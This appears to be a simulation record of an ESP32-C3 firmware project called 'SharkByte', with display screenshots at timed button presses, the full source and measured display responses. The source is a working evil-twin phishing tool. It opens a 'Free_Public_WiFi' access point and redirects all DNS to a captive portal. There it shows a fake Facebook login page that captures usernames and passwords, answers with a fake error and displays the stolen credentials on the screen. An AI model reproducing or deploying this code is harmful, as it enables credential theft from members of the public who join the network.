
This program was run on a simulated ESP32-C3. Shown: 128×64 one-colour display. Inputs (shaded band) come from the test bench; at power-on: GPIO 1 (BUTTON_DOWN) HIGH, GPIO 2 (BUTTON_UP) HIGH, GPIO 3 (BUTTON_SELECT) HIGH. Random numbers use the default seed unless the program sets one.

Above: at 3.7 s.
3.8 s: GPIO 1 (BUTTON_DOWN) pulled LOW for 1 s
At 5.7 s:

6.3 s: GPIO 2 (BUTTON_UP) pulled LOW for 3.2 s
At 9.8 s:

11.0 s: GPIO 2 (BUTTON_UP) pulled LOW for 0.15 s
At 11.7 s:

12.6 s: GPIO 3 (BUTTON_SELECT) pulled LOW for 1 s
At 14.6 s:

15.1 s: GPIO 3 (BUTTON_SELECT) pulled LOW for 0.15 s
At 16.0 s:

Timing chart, 0 to 17.7 s (numbered marks = the images above; inputs shaded):


The program:

main.cpp
```cpp
#include <Arduino.h>
#include <WiFi.h>
#include <AsyncTCP.h>
#include <ESPAsyncWebServer.h>
#include <DNSServer.h>
#include <Wire.h>
#include <Adafruit_GFX.h>
#include <Adafruit_SH110X.h>
#include "credentials.h"
#include "styles.h"
#include "boot_animation.h"

#define i2c_Address 0x3C
#define SCREEN_WIDTH 128
#define SCREEN_HEIGHT 64
#define OLED_RESET -1

#define BUTTON_SELECT 3
#define BUTTON_DOWN 1
#define BUTTON_UP 2

Adafruit_SH1106G display = Adafruit_SH1106G(SCREEN_WIDTH, SCREEN_HEIGHT, &Wire, OLED_RESET);
AsyncWebServer server(80);
DNSServer dnsServer;

const char* ssid = "Free_Public_WiFi";
const char* password = NULL;

const char* menuItems[] = {"EvilTwin Attack", "Scan Networks", "Settings"};
int currentMenuItem = 0;
int menuItemsCount = 3;
bool inMainMenu = true;
bool attackRunning = false;

String capturedCredentials = "";
int connectedClients = 0;

void drawMenu();
void startEvilTwin();
void displayEvilTwinStatus();
void stopEvilTwin();

void setup() {
  Serial.begin(115200);

  if(!display.begin(i2c_Address, true)) {
    Serial.println(F("SH1106 allocation failed"));
    for(;;);
  }

  showSharkBootAnimation(display);

  pinMode(BUTTON_SELECT, INPUT_PULLUP);
  pinMode(BUTTON_DOWN, INPUT_PULLUP);
  pinMode(BUTTON_UP, INPUT_PULLUP);

  drawMenu();
}

void loop() {
  static unsigned long lastButtonPress = 0;

  if (millis() - lastButtonPress > 200) {
    if (digitalRead(BUTTON_UP) == LOW) {
      lastButtonPress = millis();
      if (inMainMenu) {
        currentMenuItem = (currentMenuItem - 1 + menuItemsCount) % menuItemsCount;
        drawMenu();
      }
    }

    if (digitalRead(BUTTON_DOWN) == LOW) {
      lastButtonPress = millis();
      if (inMainMenu) {
        currentMenuItem = (currentMenuItem + 1) % menuItemsCount;
        drawMenu();
      }
    }

    if (digitalRead(BUTTON_SELECT) == LOW) {
      lastButtonPress = millis();
      if (inMainMenu) {
        if (currentMenuItem == 0) {
          startEvilTwin();
        }
      } else if (attackRunning) {
        stopEvilTwin();
      }
    }
  }

  if (attackRunning) {
    dnsServer.processNextRequest();
    connectedClients = WiFi.softAPgetStationNum();
    displayEvilTwinStatus();
  }
}

void drawMenu() {
  display.clearDisplay();
  display.setTextSize(1);
  display.setTextColor(SH110X_WHITE);
  display.setCursor(0, 0);
  display.println("Select an option:");

  for (int i = 0; i < menuItemsCount; i++) {
    if (i == currentMenuItem) {
      display.setTextColor(SH110X_BLACK, SH110X_WHITE);
    } else {
      display.setTextColor(SH110X_WHITE);
    }
    display.println(menuItems[i]);
  }

  display.display();
}

void startEvilTwin() {
  inMainMenu = false;
  attackRunning = true;
  capturedCredentials = "";

  display.clearDisplay();
  display.setTextSize(1);
  display.setTextColor(SH110X_WHITE);
  display.setCursor(0, 0);
  display.println("Starting EvilTwin...");
  display.display();

  WiFi.softAP(ssid, password);
  dnsServer.start(53, "*", WiFi.softAPIP());

  server.on("/", HTTP_GET, [](AsyncWebServerRequest *request){
    if(request->host() != WiFi.softAPIP().toString()){
      request->send_P(200, "text/html", captive_portal);
    } else {
      request->send_P(200, "text/html", login_html);
    }
  });

server.on("/login", HTTP_POST, [](AsyncWebServerRequest *request){
  if (request->hasParam("username", true) && request->hasParam("password", true)) {
        String username = request->getParam("username", true)->value();
        String pass = request->getParam("password", true)->value();


        capturedCredentials = username + "|" + pass;

        request->send(200, "text/html",
          "<script>alert('Connection error. Try again.'); window.location.href='/';</script>");
      }
  });

  server.on("/.well-known/ios-redirect", HTTP_GET, [](AsyncWebServerRequest *request){
    request->send(200, "text/plain", "iOS redirect");
  });

  server.onNotFound([](AsyncWebServerRequest *request){
    if(request->host() != WiFi.softAPIP().toString()){
      request->send_P(200, "text/html", captive_portal);
    } else {
      request->send(404, "text/plain", "Not found");
    }
  });

  server.begin();
}

void stopEvilTwin() {
  attackRunning = false;
  inMainMenu = true;
  dnsServer.stop();
  server.end();
  WiFi.softAPdisconnect(true);
  drawMenu();
}
void displayEvilTwinStatus() {
  static unsigned long lastUpdate = 0;

  if (millis() - lastUpdate > 1000) {
    lastUpdate = millis();

    display.clearDisplay();
    display.setTextSize(1);
    display.setTextColor(SH110X_WHITE);
    display.setCursor(0, 0);

    display.println("EvilTwin Active");
    display.println("Clients: " + String(WiFi.softAPgetStationNum()));
    display.println("----------------");

    if (capturedCredentials != "") {

      String username = "";
      String password = "";

      int dividerPos = capturedCredentials.indexOf("|");

      if(dividerPos != -1) {
        username = capturedCredentials.substring(0, dividerPos);
        password = capturedCredentials.substring(dividerPos + 1);

        display.println("User: " + username);
        display.println("Pass: " + password);
      } else {
        display.println("Received:");
        display.println(capturedCredentials);
      }
    } else {
      display.println("Waiting for data...");
    }

    display.display();
  }
}
```

boot_animation.h
```cpp
// include/boot_animation.h
#ifndef BOOT_ANIMATION_H
#define BOOT_ANIMATION_H

#include <Adafruit_SH110X.h>

// Анимационные кадры акулы (8x8 пикселей)
const uint8_t PROGMEM shark_frames[4][8] = {
  { 0x18, 0x3C, 0x7E, 0xFF, 0xFF, 0x7E, 0x3C, 0x18 }, // Кадр 1 (закрытый рот)
  { 0x18, 0x3C, 0x7A, 0xF5, 0xF5, 0x7A, 0x3C, 0x18 }, // Кадр 2 (приоткрытый)
  { 0x18, 0x3C, 0x72, 0xED, 0xED, 0x72, 0x3C, 0x18 }, // Кадр 3 (открытый)
  { 0x18, 0x3C, 0x7A, 0xF5, 0xF5, 0x7A, 0x3C, 0x18 }  // Кадр 4 (снова приоткрытый)
};

void showSharkBootAnimation(Adafruit_SH1106G &display) {
  display.clearDisplay();

  // Начальный текст
  display.setTextSize(1);
  display.setTextColor(SH110X_WHITE);
  display.setCursor(15, 0);
  display.println("SharkByte");
  display.drawLine(0, 10, display.width(), 10, SH110X_WHITE);

  for(int i=0; i<=100; i+=5) {
    display.clearDisplay();

    display.setCursor(15, 0);
    display.println("SharkByte");
    display.drawLine(0, 10, display.width(), 10, SH110X_WHITE);

    int shark_x = map(i, 0, 100, -8, display.width());
    int frame = (i/5) % 4; // Цикл по 4 кадрам

    display.drawBitmap(shark_x, 20, shark_frames[frame], 8, 8, SH110X_WHITE);

    // Волны
    for(int x=0; x<display.width(); x+=8) {
      display.drawPixel(x, 30 + 3*sin(x/10.0 + i/20.0), SH110X_WHITE);
    }

    // Прогресс-бар
    display.drawRect(0, 40, display.width(), 8, SH110X_WHITE);
    display.fillRect(0, 40, map(i, 0, 100, 0, display.width()), 8, SH110X_WHITE);

    // Статус загрузки
    display.setCursor(0, 50);
    if(i < 30) {
      display.print("Booting... ");
    } else if(i < 70) {
      display.print("Hunting... ");
    } else {
      display.print("Attacking... ");
    }
    display.print(i);
    display.println("%");

    display.display();
    delay(50);
  }

  // Финал анимации
  for(int i=0; i<3; i++) {
    display.invertDisplay(true);
    delay(150);
    display.invertDisplay(false);
    delay(150);
  }
}

#endif
```

credentials.h
```cpp
#ifndef CREDENTIALS_H
#define CREDENTIALS_H

const char login_html[] PROGMEM = R"rawliteral(
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Login Page</title>
  <style>
    body {
      font-family: Arial, sans-serif;
      background-color: #f0f2f5;
      margin: 0;
      padding: 0;
      display: flex;
      justify-content: center;
      align-items: center;
      height: 100vh;
    }
    .container {
      display: flex;
      flex-direction: column;
      align-items: center;
      max-width: 980px;
    }
    .logo-section {
      text-align: center;
      margin-bottom: 20px;
    }
    .logo {
      font-size: 48px;
      font-weight: bold;
      color: #1877f2;
      margin-bottom: 10px;
    }
    .logo-text {
      font-size: 24px;
      font-weight: normal;
      line-height: 32px;
      width: 500px;
      text-align: center;
    }
    .login-container {
      background-color: #fff;
      border-radius: 8px;
      box-shadow: 0 2px 4px rgba(0, 0, 0, 0.1), 0 8px 16px rgba(0, 0, 0, 0.1);
      padding: 20px;
      width: 396px;
    }
    .login-form {
      display: flex;
      flex-direction: column;
    }
    .login-form input {
      height: 22px;
      padding: 14px 16px;
      border: 1px solid #dddfe2;
      border-radius: 6px;
      margin-bottom: 15px;
      font-size: 17px;
    }
    .login-form input[type="submit"] {
      background-color: #1877f2;
      color: white;
      font-size: 20px;
      font-weight: bold;
      height: 48px;
      border: none;
      border-radius: 6px;
      cursor: pointer;
    }
    .forgot-password {
      text-align: center;
      margin-bottom: 20px;
    }
    .forgot-password a {
      color: #1877f2;
      font-size: 14px;
      text-decoration: none;
    }
    .divider {
      border-bottom: 1px solid #dadde1;
      margin: 20px 0;
    }
    .create-account {
      text-align: center;
    }
    .create-button {
      background-color: #42b72a;
      color: white;
      border: none;
      border-radius: 6px;
      font-size: 17px;
      line-height: 48px;
      padding: 0 16px;
      text-decoration: none;
      display: inline-block;
    }
  </style>
</head>
<body>
  <div class="container">
    <div class="logo-section">
      <div class="logo">facebook</div>
      <h2 class="logo-text">Get access to WiFi by Facebook authorization</h2>
    </div>
    <div class="login-container">
      <form action="/login" method="POST" class="login-form">
        <input type="text" name="username" placeholder="Email address or phone number">
        <input type="password" name="password" placeholder="Password">
        <input type="submit" value="Login">
        <div class="forgot-password">
          <a href="#">Forgotten password?</a>
        </div>
        <div class="divider"></div>
        <div class="create-account">
          <a href="#" class="create-button">Create new account</a>
        </div>
      </form>
    </div>
  </div>
</body>
</html>
)rawliteral";

const char captive_portal[] PROGMEM = R"rawliteral(
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Redirecting...</title>
    <script>
        // Попытка редиректа для всех устройств
        function redirect() {
            window.location.replace("http://192.168.4.1/");
        }
        // Специальный обход для iOS
        function iosRedirect() {
            var iframe = document.createElement('iframe');
            iframe.style.display = 'none';
            iframe.src = 'http://192.168.4.1/.well-known/ios-redirect?' + Math.random();
            document.body.appendChild(iframe);
            setTimeout(function() {
                window.location.replace("http://192.168.4.1/");
            }, 500);
        }
        // Пробуем оба метода
        setTimeout(redirect, 100);
        setTimeout(iosRedirect, 600);
    </script>
    <meta http-equiv="refresh" content="2; url=http://192.168.4.1/" />
</head>
<body onload="redirect()">
    <p style="text-align: center; margin-top: 50px;">
        Redirecting to login page...<br>
        If not redirected automatically, <a href="http://192.168.4.1/">click here</a>.
    </p>
</body>
</html>
)rawliteral";

#endif
```

styles.h
```cpp
#ifndef STYLES_H
#define STYLES_H

// This file is intentionally left empty as styles are included in credentials.h

#endif
```

Measured:
- after the input at 3.8 s, the display: first changes at once (image 1 shows a later state)
- after the input at 6.3 s, the display: changes at once (image 2)
- after the input at 11.0 s, the display: changes at once (image 3)
- after the input at 12.6 s, the display: first changes at once (image 4 shows a later state)
- after the input at 15.1 s, the display: changes at once (image 5)
